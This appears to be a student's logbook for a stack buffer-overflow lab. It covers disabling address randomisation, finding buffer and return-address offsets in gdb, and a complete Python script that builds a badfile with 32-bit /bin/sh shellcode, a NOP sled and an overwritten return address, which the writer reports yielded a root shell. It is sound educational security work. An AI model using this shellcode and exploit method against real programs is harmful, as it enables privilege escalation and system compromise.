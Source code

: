 # Logbook 5 

## Environment Setup 

First, we turn off some of the operating system's protections using the commands that are given (sudo sysctl -w kernel.randomize_va_space=0 and sudo ln -sf /bin/zsh /bin/sh). 

![Alt text](/Exercises/images/1.png)

## Task 1 

In 3.1 we created a file with the given C code and then compile and execute the program and conclude that will open a new shell. 

In 3.2 we just analyzed and tried to understand how the shellcode given invokes the execve() system call to execute /bin/sh. 

In 3.3 is just to understand how the 64-bit shell works.

In 3.4 we went to the past shellcode and compiled the file with help of the Makefile already given and then execute the a32.out and the a64.out. 

![Alt text](/Exercises/images/2.png)

![Alt text](/Exercises/images/3.png)

We conclude that both files generate a shellcode. 

## Task 2

In this task we compiled the program with the commands given. 

![Alt text](/Exercises/images/4.png)

After analyzing the code, we noticed the attempt to copy a char array with a maximum size of 517 bytes into a buffer with a maximum size of 100 bytes so overflow will occur because the function strcpy doesn’t check the limits of the buffer.   

## Task 3

In 5.1 we create an empty file (badfile) and run the code with a debugging method in order to discover the starting position and the place where the return-address is stored. To do this, we used gdb to debug and put a breakpoint in the bof() function following the instructions given in the task.

$ touch badfile # Create empty badfile

$ gdb stack-L1-dbg # Run the program in debug mode

gdb-peda$ b bof # Set a breakpoint in the bof function

![Alt text](/Exercises/images/Logbook5-1.png)

gdb-peda$ run # Start executing the file

![Alt text](/Exercises/images/Logbook5-2.png)

![Alt text](/Exercises/images/Logbook5-3.png)

gdb-peda$ next # See the note below

![Alt text](/Exercises/images/Logbook5-4.png)

![Alt text](/Exercises/images/Logbook5-5.png)

gdb-peda$ p $ebp # Get the ebp value 

$1 = (void *) 0xffffdfd8

![Alt text](/Exercises/images/Logbook5-6.png)

gdb-peda$ p &buffer # Get the buffer’s address 

$2 = (char (*)[100]) 0xffffdfac

![Alt text](/Exercises/images/Logbook5-7.png)

In 5.2: 

First, we change the shell_code in exploit file for the 32 bits shell code (given in the previous tasks). 
We put our start to 490 because the buffer has a size of 517 and our shell has a size of 27 bytes, so 517-27=490.

```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 490               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xFFFFCB96     # Change this number 
offset = 112            # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

To test this we open terminal where exploit.py and stack_l1 is located and run the exploit.py file and then the stack-L1. We got access to the rootshell as you can see in the print below, so we know it worked properly.

![Alt text](/Exercises/images/Logbook5-8.png)
